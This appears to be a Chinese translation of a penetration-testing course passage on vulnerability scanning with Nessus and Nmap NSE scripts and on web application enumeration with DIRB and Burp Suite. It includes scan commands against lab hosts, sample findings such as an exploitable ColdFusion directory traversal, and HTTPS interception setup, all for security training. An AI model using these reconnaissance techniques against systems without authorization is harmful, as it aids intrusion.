无论我们扫描一个主机还是多个主机，我们都可以点击 IP 地址或主机名以显示为该目标发现的漏洞，如图 64 所示：


*图 64：查看发现的漏洞*

我们可以按严重程度、可利用性、CVE 等过滤这些漏洞。要显示最有可能导致目标被攻陷的漏洞，我们可以点击`过滤器（Filter）`，并将结果面板上的下拉框更改为“可利用性存在（Exploit Available）”，接受“等于（is equal to）”和“true”的默认值。配置完成后，我们点击`应用（Apply）`。


*图 65：过滤具有利用工具的漏洞*

这将显示由 Nessus 定义的分组漏洞列表：


虽然这种分组可能很有用，但我们点击表格右上角的齿轮图标并点击禁用分组。这将呈现一种首选的输出格式，将所有漏洞列在单个页面上，并按严重程度排序：


这种输出格式非常适合我们的目的，因为它展示了一种潜在攻陷目标的路径图，将高风险漏洞优先显示：


*图 68：分组已禁用*

当然，其中一些条目可能代表误报，这就是为什么审查扫描数据并手动测试扫描结果至关重要。

#### 8.2.4.2 练习

1. 按照上述步骤创建您自己的对 Gamma 的非身份验证扫描。
2. 在打开 Wireshark 的情况下运行扫描，并识别扫描器为完成扫描所执行的步骤。
3. 审查扫描结果。

### 8.2.5 使用 Nessus 进行身份验证扫描

通过执行身份验证扫描，我们可以生成更详细的信息并减少误报，这需要有效的目标凭据。为了展示身份验证扫描的价值，我们将针对我们的 Debian 实验室客户端运行一次。然而，请记住，作为渗透测试人员，由于可能对生产系统造成意外中断的较高风险，我们在大多数情况下如果没有目标网络管理员的明确许可和清晰沟通，是不会执行身份验证扫描的。

首先，我们将点击*新扫描（New Scan）*按钮以开始扫描。


尽管所有 Nessus 模板都接受用户凭据，但我们将使用**凭据补丁审计（Credentialed Patch Audit）**扫描模板，该模板已预先配置为针对目标执行本地安全检查。此模板不仅扫描缺失的操作系统级别补丁，还会扫描可能易受权限提升等向量攻击的过时应用程序。

接下来，我们将点击 Credentialed Patch Audit 卡片：


再次提供扫描名称并设置目标。请注意，您的 Debian 客户端的 IP 地址会有所不同。请参考学生控制面板以获取正确的 Debian 客户端 IP。

### 新扫描 / 凭据补丁审计


接下来，我们点击 Credentials 标签页和 SSH 类别。在 Authentication method 下拉菜单中，选择*password*，将用户名设置为 "`root`"，并输入我们 Debian 客户端的密码。正确的配置如图 72 所示：


虽然在此示例中我们仅使用 SSH 配置，但我们可以通过点击**Categories**下拉菜单并选择*All*来轻松查看其他 Nessus 支持的认证机制。

最后，我们可以点击**Save**旁边的箭头，然后**Launch**扫描：


*图 73：启动扫描*

与未经身份验证的扫描一样，在扫描进行期间，状态报告为“*Running*”。一旦扫描达到“*Completed*”状态，我们可以点击扫描名称以打开主机列表，然后点击 Debian 客户端的 IP。这将显示在 Debian 目标上可能可被利用的漏洞列表：


*图 74：查看结果*

在此视图中，请注意漏洞是根据补丁编号列出的。这是因为在扫描的 Discovery 阶段，Nessus 确定目标正在运行 Debian 操作系统，并仅执行了*Debian Local Security Checks*插件。[233] 我们可以看到，经过身份验证的扫描是成功的，因为扫描器现在可以查看那些未远程暴露的易受攻击的应用程序，例如 Firefox。

## 8.2.5.2 练习

- 1. 按照上述步骤创建您自己的 Debian 客户端的经过身份验证的扫描。
- 2. 查看扫描结果。

## 8.2.6 使用单独的 Nessus 插件进行扫描

默认情况下，Nessus 在运行默认模板时会在后台启用许多插件。虽然在许多场景下这确实很有用，但我们还可以微调选项，例如快速运行单个插件。我们可以使用此功能来验证之前的发现，或在环境中快速发现易受特定漏洞利用影响的所有目标。

在此示例中，我们将针对实验室中的 "Beta" 主机运行*NFS Exported Share Information Disclosure* [234] 插件。我们可以使用此插件从 RPC 服务器（端口 111）收集信息，并验证目标是否导出了任何 NFS 共享。

要运行单个插件的扫描，我们将再次从*New Scan*开始：


这次，我们将使用*Advanced Scan*模板。与之前使用的 Basic Network Scan 和 Credentialed Patch Audit 模板不同，Advanced Scan 模板不使用扫描配置的建议。然而，此模板提供了一组通常对其他模板隐藏或不可用的“高级”默认值。请注意，Advanced Scan 允许我们选择单个插件，这是大多数其他模板不可用的选项。

[233] (Tenable, 2020), https://www.tenable.com/plugins/nessus/families/Debian%20Local%20Security%20Checks
[234] (Tenable, 2020), https://www.tenable.com/plugins/nessus/11356

要使用此模板，点击*Advanced Scan*卡片并配置名称和目标：


*图 76：配置单独扫描*

为了节省时间并更安静地扫描，我们将关闭*Host discovery*，因为我们知道主机是可用的。我们将通过点击*Settings*标签页下的*Discovery* > *Host Discovery*并取消勾选"Ping the remote host"来执行此操作：

### 新扫描 / 高级扫描

← 返回扫描模板


除了禁用主机发现外，如果我们知道服务正在运行的端口，我们还可以缩小扫描的端口列表，但要明白服务*并不*总是监听默认端口。只有当我们确信服务确实正在该端口上运行时，才应该这样做。由于我们要扫描 RPC 服务，并且我们知道 RPC 确实运行在 TCP 端口 111 上，因此我们将只扫描此端口。

要进行此设置，我们将选择*Discovery > Port Scanning*，并在 Settings 标签页下，将"`111`"输入到*Port scan range*字段中。我们还将取消勾选*Local Port Enumerators*部分下的所有选项，如图 78 所示。


*图 78：最小化扫描目标*

随着一些扫描选项的简化，我们可以开始选择插件。我们将首先转到*Plugins*标签页，并点击右上角的*Disable All*。


*图 79：禁用所有插件*

此时，扫描将非常快，但不会做太多事！要扫描打开的 NFS 共享，我们将在左栏中导航至“RPC”，并将右栏中的“NFS Exported Share Information Disclosure”设置为*Enabled*。


*图 80：启用 NFS 插件*

现在扫描已配置好，我们准备启动它。为此，我们将再次点击 Save 旁边的箭头，然后*Launch*：


*图 81：启动扫描*

请注意，尽管我们已配置扫描器仅扫描端口 111，但在扫描期间运行数据包捕获将显示仍然存在到其他端口的流量。这是因为端口扫描只是 Nessus 扫描配置的一部分，大多数漏洞扫描器会在后台运行其他服务和插件以收集目标信息。没有简单的方法可以完全控制自动化扫描器生成的所有流量。这种级别的控制只能通过手动努力实现。

一旦扫描状态变为“Completed”，我们可以点击扫描名称，然后点击 Beta 的 IP 以打开发现的漏洞列表。导航到单个关键漏洞并点击它会显示一个详细页面，列出所有导出的 NFS 共享：

### Beta - Individual / Plugin #11356

### NFS 导出共享信息泄露

#### 描述

远程服务器导出的 NFS 共享之一可以由扫描主机挂载。攻击者可能利用此问题来读取（甚至可能写入）远程主机上的文件。

#### 解决方案

在远程主机上配置 NFS，以便只有授权的主机可以挂载其远程共享。

#### 输出

```


The following NFS shares could be mounted :

- `/home`

- Contents of `/home` :

--

-- `jenny`

-- `je45`

-- `john`

-- `francus`

-- `ryuu`

```
| 端口 | 主机 |
| :--- | :--- |
| 2049 / udp / ncp-rfs_acl | 192.168.113 |
```


注意，扫描还生成了两个额外的 `_info_` 插件输出。这些包括关于扫描和 SYN 扫描结果的详细信息。

### 8.2.6.1 练习

- 1. 按照上述步骤创建您自己对 Beta 的单独扫描。
- 2. 在单独扫描期间运行 `Wireshark` 或 `tcpdump`。`Nessus` 扫描哪些其他端口？你认为 `Nessus` 为什么扫描其他端口？
- 3. 查看扫描结果。

### 8.3 使用 Nmap 进行漏洞扫描

作为 `Nessus` 的替代方案，我们还可以使用 `Nmap` 脚本引擎 (`NSE`)[235] 来执行自动化漏洞扫描。虽然 `NSE` 不是一个完善的漏洞扫描器，但它确实拥有一个相当大的脚本库，可用于检测和验证漏洞。`NSE` 脚本是


用 `Lua` 编写 ^236，功能范围涵盖暴力破解、身份验证，到漏洞检测与利用。为此，我们将重点关注“`vuln`”和“`exploit`”类别中的脚本，前者用于检测漏洞，后者则尝试利用漏洞。

然而，这些类别之间存在重叠，某些“`vuln`”脚本本质上可能运行简化版的利用程序。出于此原因，脚本进一步被归类为“`safe`”（安全）或“`intrusive`”（侵入式）。我们在执行后者时需格外谨慎，因为它们可能导致远程服务崩溃或使目标下线。

> **_切勿盲目运行 NSE 脚本。务必花时间检查并理解脚本的功能后再运行，并尽可能在自己的目标上进行测试。_**

在 Kali 系统中，`NSE` 脚本位于 `/usr/share/nmap/scripts/` 目录。用文本编辑器打开任何 `*.nse` 文件，即可看到每个脚本的源代码，格式简单且易于人类阅读。请花时间审阅一些 `NSE` 脚本，以熟悉其格式及这些脚本执行的检查类型。

该目录还包含一个 `script.db` 文件，它充当所有脚本的索引。它还对这些 `Nmap` 脚本进行分类。例如，我们可以使用该文件在“`vuln`”和“`exploit`”类别中 `grep` 脚本，如列表 278 所示：

```
kali@kali:~$ cd /usr/share/nmap/scripts/

kali@kali:/usr/share/nmap/scripts$ head -n 5 script.db

Entry { filename = "acarsd-info.nse", categories = { "discovery", "safe", } }

Entry { filename = "address-info.nse", categories = { "default", "safe", } }

Entry { filename = "afp-brute.nse", categories = { "brute", "intrusive", } }

Entry { filename = "afp-ls.nse", categories = { "discovery", "safe", } }

Entry { filename = "afp-path-vuln.nse", categories = { "exploit", "intrusive", "vuln", }

kali@kali:/usr/share/nmap/scripts$ cat script.db | grep "vuln"\"|\"exploit""

Entry { filename = "afp-path-vuln.nse", categories = { "exploit", "intrusive", "vuln", }

Entry { filename = "clamav-exec.nse", categories = { "exploit", "vuln", } }

Entry { filename = "discc-ccve2004-2687.nse", categories = { "exploit", "intrusive", }

Entry { filename = "ftp-proftpd-backdoor.nse", categories = { "exploit", "intrusive", }

Entry { filename = "ftp-vsftpd-backdoor.nse", categories = { "exploit", "intrusive", "

..."
```

*列表 278 - Nmap 脚本数据库*

让我们尝试使用 `NSE` 来检测漏洞。在本例中，我们将使用 `--script vuln` 对 `PWK` 实验环境中的目标运行所有 `vuln` 类别下的脚本：

```
kali@kali:~$ sudo nmap --script vuln 10.11.1.10

[sudo] password for kali:

Starting Nmap 7.70 ( https://nmap.org )

Pre-scan script results:

| broadcast-avahi-dos:

|   Discovered hosts:
```

^236 (Nmap, 2019). https://nmap.org/book/nse-language.html

224.0.0.251

在 NULL UDP avahi 包拒绝服务攻击 (CVE-2011-1002) 之后，

所有主机均已上线（不受影响）。

Nmap 扫描报告 10.11.1.10

主机已上线（延迟 0.099s）。

未显示：999 个被过滤的端口

PORT STATE SERVICE

80/tcp open http

http-cookie-flags:

/CFIDE/administrator/enter.cfm:

CFID:

未设置 httpOnly 标志

CFTOKEN:

未设置 httpOnly 标志

/CFIDE/administrator/entman/index.cfm:

CFID:

未设置 httpOnly 标志

CFTOKEN:

未设置 httpOnly 标志

/CFIDE/administrator/archives/index.cfm:

CFID:

未设置 httpOnly 标志

CFTOKEN:

未设置 httpOnly 标志

http-csrf: 未找到任何 CSRF 漏洞。

http-dombased-xss: 未找到任何基于 DOM 的 XSS。

http-enum:

/CFIDE/administrator/enter.cfm: ColdFusion 管理控制台

/CFIDE/administrator/entman/index.cfm: ColdFusion 管理控制台

/cfide/install.cfm: ColdFusion 管理控制台

/CFIDE/administrator/archives/index.cfm: ColdFusion 管理控制台

/CFIDE/wizards/common/_logintowizard.cfm: ColdFusion 管理控制台

/CFIDE/componentutils/login.cfm: ColdFusion 管理控制台

http-stored-xss: 未找到任何存储型 XSS 漏洞。

http-vuln-cve2010-2861:

存在漏洞：

Adobe ColdFusion 目录遍历漏洞

状态：存在漏洞（可利用）

IDs: CVE:CVE-2010-2861 OSVDB:G7047

Adobe ColdFusion 9.0.1 及更早版本的管理控制台中的多个目录遍历漏洞允许远程攻击者通过 locale 参数读取任意文件

公开日期：2010-08-10

附加信息：

ColdFusion8

HMAC: 749CD10DC95AF1713642CC5A1046857830C05E0B

Salt: 1560458235684

Hash: AAFDC23870ECBCD3D557B6423A8982134E17927E

参考资料：

http://web.nvd.nist.gov/view/vuln/detail?vulnId=CVE-2010-2861

https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2010-2861

http://www.blackhatacademy.org/security101/ColdFusion_Hacking

http://osvdb.org/G7047


| http://www.nessus.org/plugins/index.php?view=single&id=48340

| MAC Address: 00:50:56:93:38:CA (VMware)


列表 279 - 对 PWK 实验环境中的特定虚拟机使用 NSE 的 "vuln" 脚本

我们可以看到，`http-vuln-cve2010-2861.nse` 脚本成功检测到目标机器上的 Adobe ColdFusion 漏洞。这一点相当有趣，值得进一步调查。

虽然 Nmap 并非传统意义上的漏洞扫描器，但它对于类似任务非常有用。我们可以使用 Nmap 在渗透测试过程中验证漏洞扫描器的结果，作为专用扫描器的备用方案，并帮助减少误报。

然而，Nmap 同样需要重视适用于传统漏洞扫描器的警告。我们必须了解脚本将检查和不检查的内容，脚本将产生的流量，以及每个脚本可能带来的潜在危险。

### 8.3.1.1 练习

- 找到一个类似于在“使用单独的 Nessus 插件扫描”部分中执行的“NFS 导出共享信息泄露”的 NSE 脚本。找到后，对 PWK 实验环境中的 Beta 运行该脚本。

### 8.4 总结

在渗透测试的初始阶段，漏洞扫描会非常有帮助。一旦正确配置，漏洞扫描工具可以提供大量信息，并揭示一些严重且未预见的漏洞，这些漏洞可能对渗透测试工作产生重大影响。话虽如此，重要的是我们要明白，人工审查仍然是必要的，且扫描器只能发现它们被编程用于检测的漏洞。最后，我们应始终牢记，漏洞扫描工具可能会执行对某些网络或目标有害的操作，因此在使用时必须谨慎。

## 9. Web 应用程序攻击

在本模块中，我们将关注常见 Web 应用程序漏洞的识别与利用。现代开发框架和托管方案简化了基于 Web 的应用程序的构建和部署过程。然而，由于缺乏成熟的应用程序代码、多重依赖关系以及不安全的服务器配置，这些应用程序通常暴露出巨大的攻击面。

Web 应用程序可以用多种编程语言和框架编写，每一种都可能引入特定类型的漏洞。然而，无论底层技术栈如何，最常见的漏洞在概念上都是相似的。

在本模块中，我们将讨论 Web 应用程序漏洞的枚举与利用。尽管漏洞和攻击的复杂度各异，我们将演示 OWASP Top 10 列表中列出的几种常见 Web 应用程序漏洞的利用方法。^[237] 这些攻击向量将作为构建更高级攻击的基本构建模块。

### 9.1 Web 应用程序评估方法论

在开始讨论枚举和利用之前，我们将讨论基本的 Web 应用程序渗透测试方法论。

作为第一步，我们应该收集有关应用程序的信息。应用程序是做什么的？它是用什么语言编写的？应用程序运行在什么服务器软件上？这些及其他基本问题的答案将帮助我们指导寻找第一个（或下一个）潜在的攻击向量。

与许多渗透测试领域一样，每次尝试攻击或利用的目标都是增加我们在应用程序内的权限，或转向另一个应用程序或目标。沿途的每一次成功利用可能授予对应用程序内新功能或组件的访问权限。我们可能需要成功执行多个利用才能从未经身份验证的用户账户访问级别提升到系统上的任何类型的 Shell。

每一步中新功能的枚举都很重要，因为之前失败的攻击在新语境下可能会成功。作为渗透测试人员，我们必须持续枚举并适应，直到我们穷尽所有攻击途径或攻陷系统。

### 9.2 Web 应用程序枚举

在盲目尝试利用 Web 应用程序之前，识别组成 Web 应用程序的组件至关重要。许多 Web 应用程序漏洞与技术无关。然而，一些利用程序和有效载荷需要根据应用程序的技术基础（如数据库软件或操作系统）来定制。在对 Web 应用程序发起任何攻击之前，我们应尝试发现所使用的技术栈，通常包括以下组件：

- 编程语言和框架

^[237](OWASP, 2019), https://www.owasp.org/index.php/Category:OWASP_Top_Ten_Project


- Web 服务器软件
- 数据库软件
- 服务器操作系统

我们可以使用几种技术直接从浏览器收集此信息。大多数现代浏览器都包含开发者工具，可用于辅助枚举过程。我们将重点介绍 Firefox，因为它是 Kali Linux 的默认浏览器。然而，大多数浏览器都包含类似的开发者工具。

#### 9.2.1 检查 URL

文件扩展名有时是 URL 的一部分，可以揭示应用程序所使用的编程语言。其中一些，如 `php`，非常直观，但其他扩展名则更为晦涩，并取决于所使用的框架。例如，基于 Java 的 Web 应用程序可能使用 `jsp`、`do` 或 `.html`。

然而，由于许多编程语言和框架现在支持*路由*（routes）的概念，允许开发者将 URL 映射到代码片段，Web 页面上的文件扩展名正变得越来越不常见。利用路由的应用程序使用逻辑来确定返回给用户的内容，使得 URI 扩展名在很大程度上变得无关紧要。

#### 9.2.2 检查页面内容

虽然检查 URL 可以提供一些关于目标 Web 应用程序的线索，但大多数上下文线索都可以在网页源代码中找到。Firefox 的 `Debugger`（调试器）工具（位于 `Web Developer`（Web 开发者）菜单中，或按 `Ctrl` `Shift` `K`）显示页面的资源和内容，这些内容因应用程序而异。`Debugger` 工具可能会显示 JavaScript 框架、隐藏输入字段、注释、HTML 中的客户端控件、JavaScript 等等。

为了演示这一点，我们可以在浏览 `www.megacorp.one` 时打开 Debugger：


> *图 83：使用开发者工具检查 JavaScript 源代码*

我们可以看到，运行在 `www.megacorpone.com` 上的应用程序使用了 jQuery<sup>238</sup> 1.11.0 版本，这是一个常见的 JavaScript 库。在这种情况下，开发者对代码进行了压缩<sup>239</sup>，使其更紧凑并节省资源，但使其阅读起来有些困难。幸运的是，我们可以通过点击带有双花括号的“Pretty print source”（美化打印源代码）按钮来美化 Firefox 中的代码：

<sup>238</sup> (jQuery, 2019), https://jquery.com/

<sup>239</sup> (Wikipedia, 2019), https://en.wikipedia.org/wiki/Minification_(programming)


点击该图标后，Firefox 将以更易读和更易跟随的格式显示代码：


我们还可以使用 Inspector（检查器）工具深入查看特定的页面内容。让我们使用 Inspector 检查 "Contact"（联系）页面上的电子邮件输入元素，方法是右键点击页面上的电子邮件地址字段并选择 Inspect Element（检查元素），或使用快捷键 Page Up。


这将打开 Inspector 工具并突出显示我们右键点击的元素的 HTML。


*图 87：使用 Inspector 工具*

该工具对于在 HTML 源代码中快速查找隐藏表单字段特别有用。

### 9.2.3 查看响应头

我们也可以搜索服务器响应以获取额外信息。我们可以使用两种类型的工具来完成此任务。第一种工具是代理（proxy），它拦截客户端和 Web 服务器之间的请求和响应。我们将在本模块稍后探索代理，但首先我们将探索从 `Firefox Web Developer` 菜单启动的 `Network`（网络）工具，以查看 HTTP 请求和响应。该工具显示启动后发生的网络活动，因此我们必须刷新页面才能看到流量。


*图 88：使用 Network 工具查看请求*

我们可以点击某个请求以获取更多详细信息，在此情况下是响应头：


*图 89. 在 Network 工具中查看响应头*

上面显示的 "Server"（服务器）头通常至少会揭示 Web 服务器软件的名称。在许多默认配置中，它还会揭示版本号。

以 "X-" 开头的头是非标准 HTTP 头。<sup>240</sup> 这些名称或值通常揭示关于应用程序使用的技术栈的额外信息。非标准头的一些例子包括 X-Powered-By、x-amz-cf-id 和 X-Aspnet-Version。对这些名称的进一步研究可能揭示额外信息，例如 "x-amz-cf-id" 头，它表明应用程序使用了 Amazon CloudFront。

<sup>240</sup> (Mozilla, 2019). https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers

#### 9.2.4 检查站点地图

Web 应用程序可以包含站点地图文件，以帮助搜索引擎机器人爬取和索引它们的网站。这些文件还包含指示哪些 URL 不应被爬取的指令。这些通常是敏感页面或管理控制台——正是我们要关注的页面类型。

最常见的两个站点地图文件名是 `robots.txt` 和 `sitemap.xml`。

例如，我们可以使用 `curl` 从 `www.google.com` 获取 `robots.txt` 文件：

```text


kali@kali:~$ `curl https://www.google.com/robots.txt`

User-agent: *

Disallow: /search

Allow: /search/about

Allow: /search/static

Allow: /search/howsearchworks

Disallow: /sdch

Disallow: /groups

Disallow: /index.html?

Disallow: /?

Allow: /?hl=

...

```
*列表 280 - https://www.google.com/robots.txt*
```

`Allow`（允许）和 `Disallow`（禁止）是针对 Web 爬虫的指令，分别指示“礼貌”的 Web 爬虫可以或不可访问的页面或目录。虽然大多数情况下列出的页面和目录可能并不有趣，甚至有些可能无效，但不应忽视站点地图文件，因为它们可能包含关于网站布局或其他有趣信息的线索。

### 9.2.5 定位管理控制台

Web 服务器通常附带远程管理 Web 应用程序或控制台，可通过特定 URL 访问，并且通常监听特定的 TCP 端口。

两个常见的例子是 `Tomcat` 的 `manager` 应用程序和 MySQL 的 `phpMyAdmin`，它们分别位于 `/manager/html` 和 `/phpmyadmin`。

虽然这些控制台可以限制为仅限本地访问，或者托管在自定义 TCP 端口上，但我们经常发现它们由于默认配置而暴露在外部。无论如何，作为渗透测试人员，我们应该检查应用程序服务器软件文档中确定的默认控制台位置。在下一节中，我们还将演示可用于自动搜索这些控制台的工具，并在稍后的章节中演示利用技术。

<sup>241</sup> (Apache Software Foundation, 2019). https://tomcat.apache.org/tomcat-7.0-doc/manager-howto.html

<sup>242</sup> (phpMyAdmin, 2019). https://www.phpmyadmin.net/

### 9.3 Web 应用程序评估工具

一旦我们手动彻底探索了 Web 应用程序，就应该考虑使用 Web 应用程序评估工具来枚举目标的更多信息。

有各种各样的工具可以帮助发现和利用 Web 应用程序漏洞，其中许多在 Kali 中是预安装的。在本节中，我们将探索其中的一些工具，包括一些简单的浏览器扩展，并在稍后的章节中将重点转向手动漏洞枚举和利用。


自动化工具可以提高我们作为渗透测试人员的工作效率，但我们还必须理解手动利用技术，因为在每种情况下工具并不总是可用的，而手动技术提供了更大的灵活性和定制化。请记住，工具和自动化使我们的工作更轻松。它们不会替我们完成工作。

#### 9.3.2 DIRB

`DIRB` 是一个 Web 内容扫描器，它使用单词列表通过向服务器发送请求来查找目录和页面。即使主要索引页缺失，`DIRB` 也能识别 Web 服务器上的有效 Web 页面。

默认情况下，`DIRB` 会识别服务器上有趣的目录，但它也可以自定义以搜索特定目录、使用自定义字典、在每个请求上设置自定义 Cookie 或头等，还有更多功能。

让我们对 `www.megacorpone.com` 运行 `DIRB`。我们将提供几个参数：要扫描的 URL、`-r` 用于非递归扫描，以及 `-z 10` 用于为每个请求添加 10 毫秒的延迟：

```text
kali@Kali:~$ dirb http://www.megacorpone.com -r -z 10

---

URL_BASE: http://www.megacorpone.com/

WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

OPTION: Not Recursive

SPEED_DELAY: 10 milliseconds

---------------------

GENERATED WORDS: 4612

----- Scanning URL: http://www.megacorpone.com/ ----

+ http://www.megacorpone.com/about (CODE:200|SIZE:12180)

+ http://www.megacorpone.com/admin (CODE:403|SIZE:292)

==> DIRECTORY: http://www.megacorpone.com/assets/

+ http://www.megacorpone.com/contact (CODE:200|SIZE:7721)

+ http://www.megacorpone.com/index (CODE:200|SIZE:12519)

+ http://www.megacorpone.com/index.html (CODE:200|SIZE:12519)

+ http://www.megacorpone.com/jobs (CODE:200|SIZE:11359)

==> DIRECTORY: http://www.megacorpone.com/old-site/

+ http://www.megacorpone.com/robots (CODE:200|SIZE:23)

+ http://www.megacorpone.com/robots.txt (CODE:200|SIZE:23)

+ http://www.megacorpone.com/server-status (CODE:403|SIZE:300)

---------------------

END_TIME: Wed Jun 5 11:03:05 2019

DOWNLOADED: 4612 - FOUND: 9
```

<sup>243</sup> (DIRB), https://github.com/fairsecurity/dirb

*列表 281 - 对 www.megacorpone.com 运行 dirb。*

根据列表 281 中的输出，`DIRB` 发出了 4,612 个请求，并报告了九个不同资源的 URL、状态代码和大小。默认情况下，该工具会递归进入新发现的目录，但在这种情况下，我们的非递归（`-r`）扫描仅报告目录而不进入其中。显然，我们可以先对大型目标进行非递归扫描，然后递归搜索有趣的目录；或者根据我们的需求，从一开始就进行完整的递归扫描。

> `DirBuster` 是一款类似于 `DIRB` 的 Java 应用程序，提供多线程支持和基于 GUI 的界面。

#### 9.3.3 Burp Suite

`Burp Suite` 是一个基于 GUI 的工具集，专门用于 Web 应用程序安全测试，可以说是以其强大的代理工具而闻名。虽然免费的社区版主要包含用于手动测试的工具，但商业版包含更多功能，包括功能强大的 Web 应用程序漏洞扫描器。`Burp Suite` 拥有广泛的特性列表，值得深入研究，但我们将在本节中仅探索一些基本功能。请注意，虽然在 OSCP 考试中禁止使用 Burp Suite Professional，但也并不必要使用它。

让我们启动 `Burp Suite`。我们可以在 Kali 的 **应用程序** > **03 Web 应用程序分析** > `burpsuite` 中找到它。

^244 (PortSwigger, 2019). https://portswigger.net/burp


我们还可以从命令行使用 `burpsuite` 启动它。

```bash
kali@kali:~$ burpsuite
```


一旦启动，我们将选择*临时项目*并点击**下一步**。


*图 91：Burp 启动*

我们将保留选择*使用 Burp 默认设置*并点击*启动 Burp*。


*图 92：Burp 配置*

片刻之后，用户界面将加载。


让我们从*代理*工具开始。使用此工具，我们可以在任何由浏览器发送的请求传递到服务器之前对其进行拦截。此时我们可以更改请求的几乎所有内容，例如参数名称、表单值或添加新的头部。这让我们能够测试应用程序如何处理意外的任意输入。例如，一个输入字段可能限制为 20 个字符，但我们可以使用 Burp Suite 修改请求以提交 30 个字符。
为了设置代理，我们首先点击*代理*选项卡以显示几个子选项卡，并禁用位于*拦截*选项卡下的*拦截*工具。当*拦截*启用时，我们必须手动点击*转发*才能将每个请求继续发送到其目标。或者，我们可以点击*丢弃*以不发送该请求。有时我们希望拦截流量并修改它，但在只是浏览网站时，每次都要点击*转发*会变得非常繁琐。
*拦截*的*开/关*切换按钮显示工具的当前状态，并可用于根据需要启用或禁用它。因此，我们将此设置为*拦截已关闭*，以允许我们的浏览器流量正常流动：


*图 94：关闭拦截*

接下来，我们可以查看代理监听器设置。“选项”子选项卡显示了哪些端口正在监听代理请求。


*图 95：代理监听器*

默认情况下，Burp Suite 在 `localhost:8080` 上启用代理监听器。这是我们的浏览器必须连接的主机和端口，以便通过 Burp Suite 代理流量。我们将保留这些默认设置。
*拦截*工具在 Burp Suite 的默认配置中在启动时启用。我们可以在*用户选项* > *杂项* > *代理拦截*下检查此设置。然而，许多用户更喜欢在启动时禁用拦截，这可以通过选择*始终禁用*来实现。无论如何，我们仍然可以通过*代理* > *拦截* > *拦截已开/关*手动切换拦截的开/关。


*图 96：禁用启动时的拦截*

接下来，我们将选择**代理**，然后是*HTTP 历史记录*。在通过 Burp Suite 发送流量之前，内容将是空白的：


根据其作者介绍，*FoxyProxy Basic*^245 是一个用于 Firefox 的“简单开/关代理切换器”附加组件。我们将使用它来启用或禁用 Firefox 的代理设置。让我们现在安装它。我们可以通过在 Firefox 内部点击**打开菜单**按钮并从菜单中选择“附加组件”来完成：


> ^245 (Mozilla, 2019), https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-basic/

一旦*附加组件管理器*页面打开，我们将在页面右上角的搜索框中输入“FoxyProxy Basic”进行搜索，然后按回车：


在撰写本文时，有两个版本的 FoxyProxy 可用：Basic 和 Standard。我们将使用 Basic，因为它更易于配置，我们不需要 Standard 版本的任何额外功能：


我们将点击 **FoxyProxy Basic** 查看扩展程序的更多详细信息，然后点击 **添加到 Firefox** 安装附加组件：


一旦我们接受 **FoxyProxy Basic** 的权限，我们将点击 **添加** 完成安装。安装完成后，FoxyProxy 的欢迎页面将自动打开。我们还应该在 URL 栏右侧看到一个新的图标。


*图 102：FoxyProxy Basic 快捷方式*

FoxyProxy 默认处于禁用状态。我们可以通过查看图标来直观地验证这一点。如果图标上有一个带斜线的红色圆圈，则表示该附加组件已禁用。在启用它之前，我们需要添加一个配置文件。
首先，我们将点击小狐狸头图标以打开配置屏幕并选择 **选项**：


在选项页面上，我们将点击“添加”以打开“添加代理”屏幕。


*图 104：FoxyProxy Basic 选项*

为了为 Burp Suite 设置配置文件，我们将首先将代理类型设置为“HTTP”，输入“Burp”作为标题，并输入 `127.0.0.1` 作为 IP 地址。此外，我们将添加 Burp Suite 代理监听器端口号，我们将其保留为默认的 `8080`。最后，我们将点击“保存”。


保存后，我们将在选项页面上看到我们新的代理列表。我们可以通过再次点击 FoxyProxy 图标，然后点击“对所有 URL 使用代理 Burp（忽略模式）”来启用它。


*图 106：选择 FoxyProxy 配置文件*

FoxyProxy 图标不再被划掉，并且图标上应显示“Burp”。


*图 107：验证 FoxyProxy 已启用*

启用代理后，我们可以关闭任何多余的打开选项卡，并浏览到 `http://www.megacorpone.com`。我们应该会在 BurpSuite 的 *代理 > HTTP 历史记录*下看到流量。


如果浏览器在加载页面时挂起，拦截可能已启用。将其关闭将允许流量不间断地流动。当我们浏览更多页面时，我们应该会在 HTTP 历史记录选项卡中看到更多请求。

> *为什么 detectportal.firefox.com 不断出现在代理历史记录中？Captive portal（强制门户）是一种网页，在尝试浏览互联网时充当某种网关页面。它通常在接受用户协议或通过浏览器对 Wi-Fi 网络进行身份验证时显示。要忽略此，只需在地址栏中输入 `about:config`。Firefox 会显示警告，但我们可以通过点击“我接受此风险！”继续。最后，搜索 `network.captive-portal-service.enabled` 并双击它将值更改为 ‘false’。这将防止这些消息出现在代理历史记录中。*

(Wikipedia, 2019), https://en.wikipedia.org/wiki/Captive_portal

此时，Firefox 已经通过 Burp Suite 代理其所有流量。到目前为止，我们只查看了明文 HTTP 流量。然而，如果在通过 Burp 代理流量时浏览 HTTPS 网站（例如 `https://www.google.com`），我们会收到“无效证书”警告：


Burp 可以通过生成自己的 SSL/TLS 证书轻松地解密 HTTPS 流量，本质上就是让自己充当中间人（man-in-the-middle）以捕获流量。这些警告可能令人烦恼，但我们可以通过颁发新证书并将其导入 Firefox 来防止它们。

247 (Wikipedia, 2019). https://en.wikipedia.org/wiki/Man-in-the-middle_attack


尽管每个 Burp Suite CA 证书都应该是唯一的，但我们通过重新生成它来确保这一点。为此，我们将在 Burp Suite 中导航到 **Proxy > Options > Proxy Listeners** 并点击 **Regenerate CA certificate**，如下所示：


*图 110：重新生成 Burp 的 CA 证书*

在确认对话框上点击 **Yes** 并重启 Burp Suite。
要将新的 CA 证书导入 Firefox，我们首先浏览到 `http://burp` 以找到证书链接：


*图 111：Burp 欢迎页面*

要查看证书，我们在该屏幕上点击 CA Certificate（或连接到 `http://burp/cert`），并将 `cacert.der` 文件保存到我们本地的计算机上。


*图 112：下载 Burp Suite 证书*

下载完成后，我们可以将下载的文件拖放到 Firefox 中，选择 Trust this CA to identify websites 并点击 OK。


*图 113：将证书导入 Firefox*

为了验证导入是否成功，我们可以再次浏览一个使用 HTTPS 的网站，例如 `https://www.google.com`，该网站应能在无警告的情况下加载，并在 Burp Suite 的 HTTP History 标签页中生成 HTTPS 流量。
最后，使用 Repeater 工具，我们可以轻松地修改请求、重新发送它们并查看响应。为了看到这一过程，我们可以右键点击 **Proxy > HTTP History** 中的一个请求，并选择 **Send to Repeater**。


*图 114：将请求发送到 Repeater*

